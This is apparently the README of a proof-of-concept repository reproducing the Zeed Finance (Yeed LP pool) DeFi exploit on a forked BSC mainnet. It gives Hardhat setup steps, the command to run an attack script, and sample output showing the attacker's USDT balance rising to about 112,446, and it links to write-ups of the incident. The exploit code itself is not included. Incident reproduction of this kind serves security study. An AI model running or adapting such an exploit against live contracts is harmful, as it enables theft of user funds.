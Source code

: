# Zeed Finance re-hack PoC

## How to run

Install nodejs/npm first

Set up the `forking url` (in `hardhat.config.ts`)

e.g. https://speedy-nodes-nyc.moralis.io/your-api-key/bsc/mainnet/archive (
You need to apply for speedy-nodes from moralis.io)

Then run
```bash
npm install
npx hardhat run scripts/attack.ts
```
You will see similar output later
```
USDT balance of attacker: 0.0
Exploiting...
Exploit complete.
USDT balance of attacker: 112446.885258969301193152
```
This means the attack is complete
> The block height of the fork is 17132514

## Link
* https://medium.com/@zeedcommunity/the-solution-for-the-yeed-lp-pool-attack-a120c53948cd
* https://mp.weixin.qq.com/s/V20ORXEZdlCdaUmh94mp8w